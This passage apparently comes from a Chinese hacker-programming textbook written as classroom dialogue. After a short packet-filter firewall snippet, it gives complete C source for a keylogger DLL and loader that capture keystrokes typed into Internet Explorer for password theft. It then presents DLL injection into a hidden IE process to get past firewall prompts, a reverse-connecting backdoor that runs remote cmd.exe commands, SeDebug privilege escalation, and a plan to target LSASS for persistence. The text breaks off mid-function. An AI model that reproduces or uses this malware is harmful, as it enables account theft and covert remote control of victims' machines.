    PF_ACTION_DROP,      // 丢弃所有本机发出的数据包
    FALSE, TRUE, &hInterface);

// 填充过滤包的规则结构
FILTER_HANDLE fHandle;
PF_FILTER_DESCRIPTOR inFilter;
inFilter.dwFilterFlags = FD_FLAGS_NOSYN;      // 一直填这个值
inFilter.dwRule = 0;                          // 一直填这个值
inFilter.pfatType = PF_IPV4;                  // 用 ipv4 地址
inFilter.SrcAddr = localIp;                   // 设置本地 IP 地址
inFilter.SrcMask = 0;                         // 设置本地子网掩码
inFilter.wSrcPort = FILTER_TCPUDP_PORT_ANY;   // 任意来源端口
inFilter.wSrcPortHighRange = FILTER_TCPUDP_PORT_ANY;
inFilter.DstAddr = 0;                         // 任意目标地址
inFilter.DstMask = 0;                         // 设置目标子网掩码
inFilter.wDstPort = FILTER_TCPUDP_PORT_ANY;   // 目标端口，可以选择具体的某个端口
inFilter.wDstPortHighRange = FILTER_TCPUDP_PORT_ANY;
inFilter.dwProtocol = FILTER_PROTO_TCP;       // 过滤的协议，还有 FILTER_PROTO_ICMP 等

// 加入一个过滤接口
PfAddFiltersToInterface(hInterface, 1, &inFilter, 0, NULL, &fHandle);
```

“程序运行到这里，这个网络包过滤接口就开始工作了。现在，所有的数据都不能进出本机了。最后可以用这三个函数来删除过滤器。”

```c
PfRemoveFilterHandles(hInterface, 1, &fHandle);
PfUnBindInterface(hInterface);
PfDeleteInterface(hInterface);
```

“好了，一个简单的 Packet Filter API 类型的防火墙（或者根本不能叫做防火墙，因为功能实在太少了，连数据分析的功能也没实现）就搞定了。但这个程序只能过滤 IP 层（IPs, ports, protocol），而不能过滤链路层和应用层。你可以用 netcat 等软件在本机上监听某一端口，然后运行光盘中的程序 xpktfilter.exe，如图 3-9。我们再看看能不能 Telnet 上你监听的端口，或者 ping 一下自己的 IP，看看能不能 ping 通。我在自己机器上测试，如图 3-10。”

“大家可以根据需要来修改这个程序，用它来及时切断网络连接也未尝不是个办法。其实，这跟 Windows 自带的 IPsec 差不多，但本程序占用的资源不多，如果只是简单地过滤一些如 ICMP 的数据包，此程序绝对能胜任。”

“哇！我们还以为要实现防火墙功能的程序很复杂呢！原来只要这么一点儿代码就能实现了。”我是良民说道。

“对啊！只要大家能多学习，多动脑筋，复杂的问题也能用简单的办法来实现。”

### 3.8 编写一个键盘记录器

“前段时间流行 QQ、传奇之类的盗号软件，它们是如何编出来的呢？”蓝狐问道。

“嗯！但凡是盗号软件，无非是通过取得 EDIT 框中的字符串或者利用 hook（钩子）来截取键盘输入实现的。Windows 9x 下可直接用 GetWindowText 取得密码框文本，Windows 2000/XP 等 NT 系统对这方面做了防范。如果发现该文本框有密码框属性，GetWindowText 会失效。所以我们要想在 Win2000 或 XP 下实现该功能，就要利用 hook 了（毕竟现在还在使用 Win9x 的人已经不多了）。”

“hook 是什么来的啊？”

“hook（钩子），是 Windows 消息处理机制的一个平台，应用程序可在上面设置子程序，以监视指定窗口的某种消息，而且所监视的窗口可以是其他进程所创建的。当消息到达后，在目标窗口处理函数之前处理它。钩子机制允许应用程序截获处理 Windows 消息或特定事件。实际上，钩子是一个处理消息的程序段，通过系统调用，把它挂入系统。每当特定的消息发出，在没有到达目的窗口前，钩子程序就先捕获该消息，亦即钩子函数先得到控制权。这时钩子函数既可以加工处理（改变）该消息，也可以不作处理而继续传递该消息，还可以强制结束消息的传递。”

“还是不怎么明白啊！”冰眼嚷道。

“给大家举个例子：假如妈妈叫你向爸爸要 50 块来买菜，你可以直接向爸爸说要 50 块（当然，也可以向爸爸要 100 块）。消息是你来传递的，你现在就相当于一个钩子，因为妈妈的话是通过你传到爸爸那里的。”

“哦！原来如此，就是个中转的作用嘛！”冰眼说道。

“对！因为 hook 是用来拦截和处理系统消息的。”

“那我们如何进行记录密码啊？”

“先来说说 Windows 的运行机制。在 Windows 系统中，‘消息’是一个基本且重要的概念，可以说，Windows 是建立在‘消息’驱动的基础上的。一条消息可以看做是一件事情的发生，例如按下键盘或者移动鼠标等。Windows 应用程序的消息来源有 4 种：输入消息、控制消息、系统消息、用户消息。我们这里关注的是输入消息，当我们按下一个键时，实际上就产生了一条消息。当消息传送到应用程序，应用程序就可以做出相应处理。刚才我们说了，hook（钩子）可以截获消息，也就是说，当一条输入消息到达应用程序之前，会先经过我们的钩子，只要我们在钩子里做出相应的处理（如记录下这条消息），就可以知道用户按的是哪个键，这样就可得到键盘记录了。当然，还要把这条消息发到我们的应用程序，否则应用程序就不知道用户的输入操作了。”

“那我们如何制作钩子啊？”

“编写钩子程序，需要用到两个文件：一个是 dll 文件，另一个是 exe 文件，exe 文件负责挂钩操作。我们先来看看如何编写这个 dll 文件。”

“钩子子程是一个应用程序定义的回调函数（CALLBACK Function），不能定义成某个类的成员函数，只能定义为普通的 C 函数。用以监视系统或某一特定类型的事件，这些事件可以是与某一特定线程关联，也可以是系统中所有线程的事件。”

“钩子回调函数必须按照以下的语法：”

```c
LRESULT CALLBACK HookProc(
    int nCode,      // 钩子动作代码
    WPARAM wParam,  // 钩子类型
    LPARAM lParam
);
```

“其中，‘HookProc’是应用程序定义的名字；‘nCode’参数是 Hook 代码，Hook 子程序使用这个参数来确定任务，这个参数的值依赖于 Hook 类型，每种 Hook 都有自己的 Hook 代码特征字符集；‘wParam’和‘lParam’参数的值依赖于 Hook 代码，但它们的典型值是包含了关于发送或者接收消息的信息。回调函数的调用框架如下：”

```c
LRESULT CALLBACK 函数名(int nCode, WPARAM wParam, LPARAM lParam)
{
    变量定义；

    if (nCode < 0)
    {
        调用同一钩子链表的下个钩子函数，不对截获的消息进行处理
    }
    else
    {
        对所截获的消息进行相应处理
    }

    调用钩子链表中的下一个钩子函数
}
```

“钩子的安装与释放：使用 API 函数 SetWindowsHookEx() 把一个应用程序定义的钩子安装到钩子链表中。SetWindowsHookEx 函数总是在 Hook 链的开头安装 Hook 子程。当指定类型的 Hook 监视的事件发生时，系统就调用与这个 Hook 关联的 Hook 链表开头的 Hook。每个 Hook 链中的 Hook 都决定是否把这个事件传递到下一个 Hook。Hook 传递事件到下一个 Hook 子程需要调用 CallNextHookEx 函数。”

```c
HHOOK SetWindowsHookEx(
    int idHook,        // 钩子的类型，即它处理的消息类型
    HOOKPROC lpfn,     // 钩子子程的地址指针。如果 dwThreadId 参数为 0，或是一个由别的进程创建的线程的标识，
                       // lpfn 必须指向 DLL 中的钩子子程。除此以外，lpfn 可以指向当前进程的一段钩子子程代码。
                       // 钩子函数的入口地址，当钩子钩到任何消息后便调用这个函数。
    HINSTANCE hMod,    // 应用程序实例的句柄。标识包含 lpfn 所指的子程的 DLL。
                       // 如果 dwThreadId 标识当前进程创建的一个线程，而且子程代码位于当前进程，
                       // hMod 必须为 NULL。可以很简单地设置其为本应用程序的实例句柄。
    DWORD dwThreadId   // 与安装的钩子子程相关联的线程的标识符。
                       // 如果为 0，钩子子程与所有的线程关联，即为全局钩子。
);
```

“函数成功则返回钩子子程的句柄，失败返回 NULL。SetWindowsHookEx() 函数的最后一个参数决定了此钩子是系统钩子还是线程钩子。线程钩子用于监视指定线程的事件消息，线程钩子一般在当前线程或者当前线程派生的线程内。系统钩子监视系统中所有线程的事件消息，因为系统钩子会影响系统中所有的应用程序，所以钩子函数必须放在独立的动态链接库（DLL）中。系统自动将包含‘钩子回调函数’的 DLL 映射到受钩子函数影响的所有进程的地址空间中，即将这个 DLL 注入了那些进程。”

“在钩子中调用得到控制权的钩子函数在完成对消息的处理后，如果想要该消息继续传递，那么它必须调用另外一个 SDK 中的 API 函数 CallNextHookEx 来传递它，以执行钩子链表所指...”

## 第三章 黑客编程实例

的下一个钩子。这个函数成功时返回钩子链中下一个钩子过程的返回值，返回值的类型依赖于钩子的类型。此函数的原型如下：

```c
LRESULT CallNextHookEx(
    HHOOK hhk,
    int nCode,
    WPARAM wParam,
    LPARAM lParam
);
```

其中，“hhk”为当前钩子的句柄，由 SetWindowsHookEx() 函数返回；“nCode”为传给钩子过程的事件代码；“wParam”和“lParam”分别是传给钩子过程的 wParam 值，其具体含义与钩子类型有关。

钩子函数也可通过直接返回 TRUE 来丢弃该消息，并阻止该消息的传递。否则，其他安装了钩子的应用程序将不会接收到钩子的通知，而且还有可能产生不正确的结果。

钩子在使用完之后，需要用 UnhookWindowsHookEx() 卸载。释放钩子比较简单，UnhookWindowsHookEx() 只有一个参数。函数原型如下：

```c
BOOL UnhookWindowsHookEx(
    HHOOK hhk
);
```

函数成功，则返回 TRUE，否则返回 FALSE。

现在大家应该基本明白钩子的原理和应用了吧？

基本明白了！但还不知道怎么来获取密码！马蜂窝说道。

下面就给大家举个实例吧！下面的钩子截获 IE 中的键盘输入，并保存到硬盘上的一个 txt 文件中。

```c
// getpass.c -> getpass.dll
#include <windows.h>
#include <stdio.h>
#include <process.h>
#define CHARNUM 5
#define TXTLENGTH 10
#define PLACEOFFILE "C:\\passwd.txt"

static BOOL bHooked = FALSE;
static BOOL IE_is_active = FALSE;
static HHOOK hhook = 0, hhookMsg = 0;
static HINSTANCE hInst;
static int count;

static char tomb[CHARNUM];
static FILE *stream;
static int shift = 32;
short flag;
enum NUM // 特殊键
{
    SHIFT,
    CONTROL,
    ALT,
    CAPITAL
};

static int condition[CHARNUM][CAPITAL + 1];
static char text[TXTLENGTH];
void Initcondition(void);
LRESULT CALLBACK KeyboardProc(int code, WPARAM wParam, LPARAM lParam);
LRESULT CALLBACK CBTProc(int code, WPARAM wParam, LPARAM lParam);

BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpvReserved)
{
    switch (fdwReason)
    {
        case DLL_PROCESS_ATTACH:
            hInst = hinstDLL;
            Initcondition();
            count = 0;
            break;
        case DLL_THREAD_ATTACH:
            break;
        case DLL_THREAD_DETACH:
            break;
        case DLL_PROCESS_DETACH:
            RemoveKbHook();
            break;
        default:
            break;
    }
    return TRUE;
}

__declspec(dllexport) void SetKbHook(void)
{
    if (!bHooked)
    {
        hhook = SetWindowsHookEx(WH_KEYBOARD, (HOOKPROC)KeyboardProc, hInst, (DWORD)NULL); // 安装键盘钩子
        hhookMsg = SetWindowsHookEx(WH_CBT, (HOOKPROC)CBTProc, hInst, (DWORD)NULL);
        bHooked = TRUE; // 安装窗口消息钩子
    }
}

__declspec(dllexport) void RemoveKbHook(void) // 删除钩子函数
{
    if (bHooked) UnhookWindowsHookEx(hhook);
}

LRESULT CALLBACK KeyboardProc(int code, WPARAM wParam, LPARAM lParam)
{
    int i, temp, flag_shift, flag_capital, flag_alt, flag_control;
    if (IE_is_active) // 如果 IE 窗口活动，才记录按键信息
    {
        if ((wParam == VK_SHIFT) || (wParam == VK_CAPITAL) || (wParam == VK_MENU) ||
            (wParam == VK_CONTROL)) // 这些都是处理特殊键
        {
            flag_shift   = 0x8000 & GetKeyState(VK_SHIFT);
            flag_capital = 0x0001 & GetKeyState(VK_CAPITAL);
            flag_alt     = 0x8000 & GetKeyState(VK_MENU);
            flag_control = 0x8000 & GetKeyState(VK_CONTROL);
        }

        if (wParam != VK_TAB && wParam != VK_ESCAPE && wParam != VK_LEFT && wParam != VK_RIGHT &&
            wParam != VK_UP && wParam != VK_DOWN && wParam != VK_END && wParam != VK_HOME &&
            wParam != VK_PRIOR && wParam != VK_NEXT && wParam != VK_INSERT && wParam != VK_NUMLOCK &&
            wParam != VK_SCROLL && wParam != VK_PAUSE && wParam != VK_LWIN && wParam != VK_RWIN &&
            wParam != VK_F1 && wParam != VK_F2 && wParam != VK_F3 && wParam != VK_F4 && wParam != VK_F5 &&
            wParam != VK_F6 && wParam != VK_F7 && wParam != VK_F8 && wParam != VK_F9 && wParam != VK_F10 &&
            wParam != VK_F11 && wParam != VK_F12)
        {
            if ((0x80000000 & lParam) == 0)
            {
                if (wParam >= 0x41 && wParam <= 0x5a)
                    wParam += 32;

                if (wParam == VK_SHIFT || wParam == VK_CONTROL || wParam == VK_MENU || wParam == VK_CAPITAL)
                {
                    if (wParam == VK_CAPITAL) temp = 1;
                    else temp = 0;
                    condition[count][wParam - 16 - temp] = 1;
                }
                tomb[count] = wParam;
                count++;
            }
            else
            {
                if (wParam == VK_SHIFT || wParam == VK_CONTROL || wParam == VK_MENU || wParam == VK_CAPITAL)
                {
                    if (wParam == VK_CAPITAL)
                        temp = 1;
                    else
                        temp = 0;
                    condition[count][wParam - 16 - temp] = 2;
                    tomb[count] = wParam;
                    count++;
                }
                if (count == CHARNUM)
                {
                    stream = fopen(PLACEOFFILE, "a+");
                    for (i = 0; i < count; i++)
                    {
                        switch (tomb[i])
                        {
                            case VK_DELETE:
                                fprintf(stream, "%s", "<delete>");
                                break;
                            case VK_RETURN:
                                fprintf(stream, "%s", "\n");
                                break;
                            case VK_BACK:
                                fprintf(stream, "%s", "<backspace>");
                                break;
                            case VK_SHIFT:
                                if (condition[i][SHIFT] == 1)
                                    fprintf(stream, "%s", "<shiftdown>");
                                else
                                    fprintf(stream, "%s", "<shiftup>");
                                break;
                            case VK_CONTROL:
                                if (condition[i][CONTROL] == 1)
                                    fprintf(stream, "%s", "<ctrldown>");
                                else
                                    fprintf(stream, "%s", "<ctrlup>");
                                break;
                            case VK_MENU:
                                if (condition[i][ALT] == 1)
                                    fprintf(stream, "%s", "<ad>");
                                else
                                    fprintf(stream, "%s", "<au>");
                                break;
                            case VK_CAPITAL:
                                if (condition[i][CAPITAL] == 1)
                                    fprintf(stream, "%s", "<cpd>");
                                else
                                    fprintf(stream, "%s", "<cpu>");
                                break;
                            default:
                                fprintf(stream, "%c", tomb[i]);
                                break;
                        }
                    }
                    fclose(stream);
                    count = 0;
                    Initcondition();
                }
            }
        }
    }

    return CallNextHookEx(hhook, code, wParam, lParam);
}

void Initcondition(void)
{
    int i, j;
    for (i = 0; i < CHARNUM; i++)
        for (j = 0; j < CAPITAL + 1; j++)
            condition[i][j] = 0;
}

LRESULT CALLBACK CBTProc(int code, WPARAM wParam, LPARAM lParam)
{
    // 这个回调函数检查是否为 IE 窗口，本程序只截获 IE 窗口的键盘输入
    if (code == HCBT_ACTIVATE)
    {
        GetClassName((HANDLE)wParam, text, TXTLENGTH);
        if (text[0] == 'I' && text[1] == 'E') // Class name of Internet Explorer begins with IE
            IE_is_active = TRUE;
        else
            IE_is_active = FALSE;
    }

    return CallNextHookEx(hhookMsg, code, wParam, lParam);
}
```

上面的是钩子的 DLL 代码，我们还需要一个 EXE 程序来进行加载，这个 DLL。EXE 文件代码如下：

```c
#include <windows.h>
int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance,
                   LPSTR lpszCmdLine, int nCmdShow)
{
    MSG msg;
    char text[] = "Error loading DLL!";
    char title[] = "Key Tracer";
    BOOL error = FALSE;
    HINSTANCE dllhinst;
    typedef VOID (CALLBACK* LPFNDLLFUNC1)(VOID);
    LPFNDLLFUNC1 pfnDllFunc1;

    dllhinst = LoadLibrary("getpass.dll");
    if (dllhinst != NULL)
    {
        pfnDllFunc1 = (LPFNDLLFUNC1)GetProcAddress(dllhinst, "SetKbHook");
        if (!pfnDllFunc1)
        {
            FreeLibrary(dllhinst);
            error = TRUE;
        }
        else
        {
            pfnDllFunc1();
        }
    }
    else
        error = TRUE;

    if (error)
        MessageBox(GetDesktopWindow(), text, title, MB_OK);

    while (GetMessage(&msg, 0, 0, 0))
    {
        TranslateMessage(&msg);
        DispatchMessage(&msg);
    };
    return msg.wParam;
}
```

好了，键盘记录程序就这样完成了。另外，大家编写钩子时要注意，因为我们的钩子直接处理消息，所以如果掌握不好，对系统性能的影响会比较大。

### 3.9 线程插入技术详解

- 前置知识：DLL、远程线程
- 难度：高
- 编译环境：VC6.0 + Win2000
- 测试环境：Win2000 + 天网防火墙

大家好，今天我们来讨论目前木马／后门较流行的技术——线程插入技术。

“什么是线程插入技术啊？”马蜂窝问道。

线程插入技术也叫远程线程技术，指的是将自己的代码插入正在运行的进程中的技术。其实，这种技术也不算是很难，只要有基本的进程、线程和动态链接库的知识就可轻松完成线程插入。

#### 远程线程技术

远程线程技术是通过在另一个进程中创建远程线程的方法进入那个进程的内存地址空间。事先把要执行的代码和有关数据写进目标进程，然后创建一个远程线程来让远端进程执行那些代码。

我们知道，在进程中，可以通过 CreateThread 函数创建线程，被创建的新线程与主线程（就是进程启动时被同时自动建立的那个线程）共享地址空间以及其他资源。但是，通过 CreateRemoteThread 也同样可在另一个进程内创建新线程，被创建的远程线程同样可以共享远程进程（是远程进程哦）的地址空间。所以，实际上，我们通过一个远程线程，进入了远程进程的内存地址空间，也就拥有了那个远程进程一定的权限。例如在远程进程内部启动一个 DLL 木马。

“为什么要那么麻烦啊？就这样启动一个木马不就行了？”冰眼问道。

“呵呵！我们启动远程线程的目的是可以隐藏木马进程！把木马插入到一个正常进程中，在用户看来不就是没有木马进程了吗？更重要的一点是可以突破防火墙！”

“突破防火墙？怎样突破？”冰眼又问道。

“大家都安装过防火墙吧？”

“肯定啦！”

“那么，当有程序访问 Internet 时，防火墙是不是会弹出一个窗口来询问是否允许 XXX 程序访问网络？”

“对啊！”大家几乎异口同声。

“那就是啦！如果防火墙提示一个你不认识的程序要访问 Internet，那你会有什么反应？”

“很有可能是木马或后门！”蓝狐答道。

“对！但如果是 IE 访问 Internet 呢？你会不会允许 IE 访问 Internet？”

“那还用问吗？当然允许。”

“就是了，如果我们把木马代码插入到 IE 进程中去，那么当防火墙提示 IE 访问 Internet 时，也就是我们木马解放的时候了！用户只要第一次允许 IE 访问网络，以后当 IE 再次访问网络时，防火墙就不会给予提示。这样，我们的木马或后门不就可以突破防火墙了吗？”

“哈哈！暗度陈仓，绝！”冰眼说道。

好，我们现在就来动手写程序。我们先看看远程线程的主角 CreateRemoteThread()，首先介绍一下主要工具 CreateRemoteThread，这里先将函数原型简单介绍一下。CreateRemoteThread 可将线程创建在远程进程中。

函数原型：

```c
HANDLE CreateRemoteThread(
    HANDLE hProcess,                          // handle to process
    LPSECURITY_ATTRIBUTES lpThreadAttributes, // SD
    SIZE_T dwStackSize,                       // initial stack size
    LPTHREAD_START_ROUTINE lpStartAddress,    // thread function
    LPVOID lpParameter,                       // thread argument
    DWORD dwCreationFlags,                    // creation option
    LPDWORD lpThreadId                        // thread identifier
);
```

- **参数说明：**
- **hProcess**：[输入] 进程句柄
- **lpThreadAttributes**：[输入] 线程安全描述字，指向 SECURITY_ATTRIBUTES 结构的指针
- **dwStackSize**：[输入] 线程栈大小，以字节表示
- **lpStartAddress**：[输入] 一个 LPTHREAD_START_ROUTINE 类型的指针，指向在远程进程中执行的函数地址
- **lpParameter**：[输入] 传入参数

#### dwCreationFlags

- [输入] 创建线程的其他标志。  
- `lpThreadId`：[输出] 线程身份标志，如果为 `NULL`，则不返回。  
- 返回值：成功返回新线程句柄，失败返回 `NULL`，并且可调用 `GetLastError` 获得错误值。

“大家很快可以领略到 `CreateRemoteThread` 的神通，它使你的代码可以脱离你的进程，植入到别的进程中运行。大家说，把代码插入到哪个进程中突破防火墙最好啊？”

“当然是 QQ 或者 IE 啦！因为绝大多数人会允许这两个程序访问网络！”

“嗯，是的！这两个程序都很好。但接下来我们会选择 IE，因为通常我们会打开多个 IE 而不是多个 QQ。那样的话，我们启动一个没有窗口的 IE 再把代码插进去，隐藏性就比较好了。”

“怎样打开一个没有窗口的 IE 啊？”

“要打开一个新的进程，我们利用的是 `CreateProcess()` 函数。以下代码实现打开一个 IE 进程，但窗口被隐藏起来。”

```c
STARTUPINFO si;    // 进程启动时需要初始化的结构
PROCESS_INFORMATION pi;    // 进程启动后的有关信息
si.cb = sizeof(STARTUPINFO);
GetStartupInfo(&si);
si.wShowWindow = SW_HIDE;    // 这里设置窗口为隐藏，SW_SHOW 为显示窗口
si.dwFlags = STARTF_USESHOWWINDOW | STARTF_USESTDHANDLES;
CreateProcess("C:\\Program Files\\Internet Explorer\\IEXPLORE.EXE",
    NULL, NULL, NULL, TRUE, NULL, NULL, NULL, &si, &pi);
```

“当然，不是所有系统都安装在 C 盘，要确保我们能够打开一个隐藏窗口的 IE 进程，可以利用下面的代码：”

```c
char syspath[256];
GetSystemDirectory(syspath, 250);
strcat(syspath, "\\..\\..\\Program Files\\Internet Explorer\\IEXPLORE.EXE");
CreateProcess(syspath, NULL, NULL, NULL, TRUE, NULL, NULL, NULL, &si, &pi);
```

“首先，我们利用 `GetSystemDirectory()` 函数取得系统目录，例如系统安装在 D 盘，则为 `D:\\WINNT\\system32`。`..` 表示上一层目录，那么 `D:\\WINNT\\system32\\..\\..\\Program Files\\Internet Explorer\\IEXPLORE.EXE` 实际上就是 `D:\\Program Files\\Internet Explorer\\IEXPLORE.EXE`，那么我们就可以保证 IE 路径的正确性。”

“IE 进程启动后，我们需要得到其进程的 PID，以便把数据写进 IE 进程。在系统创建进程时，进程的 PID 保存在 `PROCESS_INFORMATION` 结构中。我们可以利用 `pi.dwProcessId` 得到 IE 进程的 PID。接下来就要把有关代码写进目标进程。”

```c
GetCurrentDirectory(MAX_PATH, pszlibfilename); // 得到当前的目录路径
if (pszlibfilename[strlen(pszlibfilename)-1] == '\\') // 判断是否为根目录
    strcat(pszlibfilename, "\\Trojan.dll");
else
    strcat(pszlibfilename, "Trojan.dll"); // 连接要插入的动态链接库的文件名（这里是 Trojan.dll）
SetPrivilege(); // 提升权限

// 获得目标进程句柄
HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);
cb = (1 + lstrlenA(pszlibfilename)) * sizeof(char);

// 在目标进程中分配变量地址空间，并且设定为可以读写 PAGE_READWRITE
char *pszLibFileRemote = (char *)VirtualAllocEx(hProcess, NULL, cb, MEM_COMMIT, PAGE_READWRITE);

// 写内容到目标进程中分配的变量空间
WriteProcessMemory(hProcess, pszLibFileRemote, (PVOID)pszlibfilename, cb, NULL);
PTHREAD_START_ROUTINE pfnStartAddr;

// Kernel32.dll 中取得 LoadLibraryA 地址
pfnStartAddr = (PTHREAD_START_ROUTINE)GetProcAddress(GetModuleHandle("Kernel32"), "LoadLibraryA");

// 创建远程线程
HANDLE hThread = CreateRemoteThread(hProcess, NULL, 0, pfnStartAddr, pszLibFileRemote, 0, NULL);
WaitForSingleObject(hThread, INFINITE); // 等待函数
CloseHandle(hThread);
VirtualFreeEx(hProcess, pszLibFileRemote, 0, MEM_RELEASE);

// 释放刚才分配的远程进程的内存
CloseHandle(hProcess);
```

“上面是把我们的 dll 插入到远程进程的 exe 程序的代码。这个 exe 程序只是负责把 dll 插入到目标进程，而要实现木马或后门功能的，则是接下来要介绍的 dll 文件。这里只给大家简单地演示如何穿透防火墙，所以要实现的功能还是比较简单的。”

“首先还是给大家介绍一下原理。我们可以把 dll 后门插入到某个进程中，而这个进程是防火墙允许让外部用户连接的。但由于大多数防火墙禁止了由外部发起的连接，所以我们就要利用反弹端口，即内部向外部连接，这就是为什么我们要把 dll 后门插入到 IE 的原因。我们利用远程线程把代码插入到防火墙允许访问网络的应用程序中，然后由这个程序来访问网络而完成远程控制。”

“你的意思是说利用反弹端口？我们如何获得客户端的 IP 地址呢？”冰眼问道。

“我们可以读取一个免费空间的指定页面，里面包含客户端的 IP 地址。因为是 IE 来进行访问，因此防火墙不会做出提示。我们可利用下面的代码来获取指定网页：”

```c
char *request = "GET /ip.htm"; // 广外号生成的页面
char buffer[2000];
destSockAddr.sin_family = AF_INET;
destSockAddr.sin_port = htons(80);
```

## 第三章 黑客编程实例

```cpp
destSockAddr.sin_addr.s_addr = inet_addr(DEST_IP_ADDR);
// DEST_IP_ADDR 为你的免费空间 IP

destSocket = socket(AF_INET, SOCK_STREAM, 0);
connect(destSocket, (LPSOCKADDR)&destSockAddr, sizeof(destSockAddr));
send(destSocket, request, strlen(request) + 1, 0);
recv(destSocket, buffer, 2000, 0);
```

“上面的代码连接到你的免费空间中，并且读取 `ip.htm`。`buffer` 里就是整个 `ip.htm` 的内容，当然包括 HTTP 头部，可以分析里面的内容得到客户机的详细情况！例如 `ip.htm` 中有 `#218.14.11.22#`，那么利用 `strstr()` 函数就很容易取得 IP 地址了。”

“那我们的 DLL 该如何编写呢？”

“下面我们来做个简单的例子，即连接本机（127.0.0.1）的 80 端口，并绑定一个 shell。Dll 的代码如下：”

```cpp
/************hacker.cpp -> hacker.dll************/
#include <winsock2.h>
#include <stdio.h>
#pragma comment(lib, "ws2_32.lib")
#pragma comment(lib, "Kernel32.lib")
int StartSocket(); // 连接函数

BOOL APIENTRY DllMain(HANDLE hModule,
                      DWORD ul_reason_for_call,
                      LPVOID lpReserved)
{ // 动态链接库的入口，相当于 main() 函数
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
    {
        DWORD id;
        CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)StartSocket, NULL, 0, &id);
        break;
    }
    default:
        break;
    }
    return TRUE;
}

int StartSocket()
{
    char *messages = "\r\n=========== BackConnect BackDoor V0.1 ===========\r\n=========== Welcome to Http://www.hackerxfiles.net ===========\r\n";
    WSADATA WSAData;
    SOCKET sock;
```

```c
SOCKADDR_IN addr_in;
char buf1[1024];      // 作为 socket 接收数据的缓冲区
memset(buf1, 0, 1024);   // 清空缓冲区
if (WSAStartup(MAKEWORD(2,0), &WSAData) != 0)
{
    printf("WSAStartup error.Error:%d\n", WSAGetLastError());
    return;
}

addr_in.sin_family = AF_INET;
addr_in.sin_port = htons(80);   // 反向连接的远端主机端口
addr_in.sin_addr.S_un.S_addr = inet_addr("127.0.0.1");   // 远端 IP
if ((sock = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP)) == INVALID_SOCKET)
{
    printf("Socket failed.Error:%d\n", WSAGetLastError());
    return;
}
if (WSAConnect(sock, (struct sockaddr *)&addr_in, sizeof(addr_in), NULL, NULL, NULL, NULL) == SOCKET_ERROR)
// 连接客户主机
{
    printf("Connect failed.Error:%d", WSAGetLastError());
    return;
}
if (send(sock, messages, strlen(messages), 0) == SOCKET_ERROR)
// 发送欢迎信息
{
    printf("Send failed.Error:%d\n", WSAGetLastError());
    return;
}

char buffer[2048] = {0};   // 管道输出的数据
for (char cmdline[270]; ; memset(cmdline, 0, sizeof(cmdline))) {
    SECURITY_ATTRIBUTES sa;   // 创建匿名管道，用于取得 cmd 的命令输出
    HANDLE hRead, hWrite;
    sa.nLength = sizeof(SECURITY_ATTRIBUTES);
    sa.lpSecurityDescriptor = NULL;
    sa.bInheritHandle = TRUE;
    if (!CreatePipe(&hRead, &hWrite, &sa, 0))
    {
        printf("Error On CreatePipe()");
        return;
    }
```

```c
STARTUPINFO si;
PROCESS_INFORMATION pi;
si.cb = sizeof(STARTUPINFO);
GetStartupInfo(&si);
si.hStdError = hWrite;
si.hStdOutput = hWrite;
si.wShowWindow = SW_HIDE;
si.dwFlags = STARTF_USESHOWWINDOW | STARTF_USESTDHANDLES;

GetSystemDirectory(cmdline, MAX_PATH + 1);
strcat(cmdline, "\\cmd.exe /c");

int len = recv(sock, buf1, 1024, NULL);
if (len == SOCKET_ERROR) exit(0); // 如果客户端断开连接，则自动退出程序
if (len <= 1) { send(sock, "error\n", sizeof("error\n"), 0); continue; }

strncat(cmdline, buf1, strlen(buf1)); // 把命令参数复制到 cmdline
if (!(CreateProcess(NULL, cmdline, NULL, NULL, TRUE, NULL, NULL, NULL, &si, &pi)))
{
    send(sock, "Error command\n", sizeof("Error command\n"), 0);
    continue;
}

CloseHandle(hWrite);
// 循环读取管道中数据并发送，直到管道中没有数据为止
for (DWORD bytesRead; ReadFile(hRead, buffer, 2048, &bytesRead, NULL); memset(buffer, 0, 2048)) {
    send(sock, buffer, strlen(buffer), 0);
}

return 0;
}
```

“我来说明一下，当负责插入 dll 的 exe 程序执行 `CreateRemoteThread()` 函数后，被插入的进程就会利用 `LoadLibrary()` 函数来装载我们的 dll。一旦 dll 被装载（dll 装载的原因就是 `DLL_PROCESS_ATTACH`），就会执行 `CreateThread(NULL,0,(LPTHREAD_START_ROUTINE)StartSocket,NULL,0,&id);`，新的线程被创建，即反向连接到目标的 80 端口。大家明白么？”

“嗯，明白了！线程插入这种技术真的很好玩，随便就可以把 dll 插入到其他进程中去！”蓝狐高兴地说道。

“不是随便哦，例如我们想插入到 `LSASS.exe` 等系统进程时，要有足够的权限才行。下面这个函数可以让我们的程序获取足够的权限：”

```c
BOOL SetPrivilege() // 本函数用于提升权限，提升到 SE_DEBUG_NAME
{
TOKEN_PRIVILEGES tkp;
HANDLE hToken;
if (!OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES | TOKEN_QUERY, &hToken)) // 打开当前进程失败
    return FALSE;
LookupPrivilegeValue(NULL, SE_DEBUG_NAME, &tkp.Privileges[0].Luid); // 查看当前权限
tkp.PrivilegeCount = 1;
tkp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;
AdjustTokenPrivileges(hToken, FALSE, &tkp, 0, (PTOKEN_PRIVILEGES)NULL, 0); // 调整权限，如上设置
return TRUE;
}
```

“大家还有什么问题吗？”

“有啊！你刚才说过，我们可以插入到 `LSASS.exe` 进程，那我们怎样取得它的 pid 啊？之前介绍说，取得创建 IE 进程后的 pid 比较容易，因为 `PROCESS_INFORMATION` 结构中有它的 PID。另外，插入到这种系统线程有什么用啊？”多多喵问道。

“这个问题问得好！下面的函数是获取指定进程的 pid。例如想取得 `explorer.exe` 的 pid，可以利用下面的语句：`int pid = ProcesstoPid("explorer.exe")`。我们如果把一个 dll 插入到 `explorer.exe` 进程，可以实现很多功能，例如写一个监视进程的 dll 插入 `explorer.exe` 进程中，定时检查是否有我们要监视的进程，如果没有，就创建新的。这样可以做到进程不死！另外，`LSASS.EXE` 进程不是随便可以关闭的！只要进程在，我们的 dll 木马就会留在内存中。”

```c
DWORD ProcesstoPid(char *pid) // 查找指定进程的 PID(Process ID)
{
    HANDLE hProcessSnap = NULL;
    char buffer[MAX_PATH];
